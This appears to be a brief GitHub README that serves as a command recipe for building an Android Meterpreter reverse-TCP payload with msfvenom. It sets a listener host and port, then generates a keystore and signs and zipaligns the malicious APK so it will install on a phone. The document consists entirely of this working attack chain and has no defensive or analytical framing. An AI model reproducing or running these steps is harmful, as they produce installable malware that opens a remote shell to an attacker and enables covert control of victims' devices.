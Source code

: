 # kali-ms


msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 > reverse_tcp_.apk


## keytool

keytool -genkey -V -keystore key.keystore -alias krnick -keyalg RSA -keysize 2048 -validity 1000


## check your key content

keytool -list -keystore key.keystore

## Sign

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore reverse_tcp.apk krnick

## check signing

jarsigner -verify -verbose -certs reverse_tcp.apk

## optimization

echo "export PATH=\$PATH:~/Library/Android/sdk/build-tools/30.0.3/" >> ~/.bash_profile && . ~/.bash_profile

zipalign -v 4 reverse_tcp.apk singed_reverse_tcp.apk
